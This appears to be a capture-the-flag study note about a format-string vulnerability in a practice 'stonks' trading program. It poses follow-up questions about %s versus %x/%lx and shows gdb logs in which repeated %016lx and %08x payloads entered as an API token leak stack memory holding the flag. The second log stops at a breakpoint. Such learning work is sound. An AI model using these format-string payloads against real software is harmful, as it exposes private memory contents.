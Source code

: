 ### Follow-up questions

1. Can I use `%s` in the payload to display the content? (so that I don't need to do the conversion myself) If I can't, what change do I need to make in the program so that I can use `%s` to show the `api_buf`?

2. Explain why no "data loss" for the flag data (api_buf) when you use both `%x` and `%lx` as payload IN THE ACTUAL SERVER (64-bit program). Note that you lose 4 bytes in the stack each time you `printf("%x")` instead of `printf(%lx)`. (On local I lose half of the flag too)

Extract from actual test:

```bash
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_%016lx_
Buying stonks with token:

Breakpoint 1, buy_stonks (p=0x555555559260) at vuln_edited.c:94
94      printf(user_buf);
(gdb) x /40x $sp
0x7fffffffddd0: 0x00000d68 0x00000000 0x55559260 0x00005555
0x7fffffffdde0: 0x6f636970 0x7b465443 0x68636167 0x53414269
0x7fffffffddf0: 0x454b5f53 0x635f574b 0x694b7461 0x345f7373
0x7fffffffde00: 0x39363032 0x00000a7d 0x00000001 0x00000000
0x7fffffffde10: 0x0000000a 0x00000000 0x55558098 0x00005555
0x7fffffffde20: 0x55556151 0x00005555 0xf7fab2a0 0x00007fff
0x7fffffffde30: 0x00000000 0x00000000 0xf7e70649 0x00007fff
0x7fffffffde40: 0xf7faf760 0x00007fff 0xf7e70a33 0x00007fff
0x7fffffffde50: 0x00000014 0x00000000 0xf7faf760 0x00007fff
0x7fffffffde60: 0x5555a500 0x00005555 0x5555a4e0 0x00005555
(gdb) n
00007ffff7faf7e3_00007ffff7fb08c0_00007ffff7ede3b4_00007ffff7fb5500_0000000000000000_0000000000000d68_0000555555559260_7b4654436f636970_5341426968636167_635f574b454b5f53_345f7373694b7461_00000a7d39363032_0000000000000001_000000000000000a_0000555555558098_0000555555556151_00007ffff7fab2a0_0000000000000000_00007ffff7e70649_00007ffff7faf760_00007ffff7e70a33_0000000000000014_00007ffff7faf760_000055555555a500_000055555555a4e0_0000000200000000_00007fffffffdde0_0000555555559280_00000000ffffdfa0_00007fffffffdec0_000055555555564e_00007fffffffdfa8_0000000155555120_00000001ffffdfa0_0000555555559260_0000555555555690_00007ffff7e1809b_0000000000000000_00007fffffffdfa8_0000000100040000_

# Note that 0000000000000000_0000000000000d68 are those data in 0x7fffffffdddX
```

```bash
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_
Buying stonks with token:

Breakpoint 1, buy_stonks (p=0x555555559260) at vuln_edited.c:94
```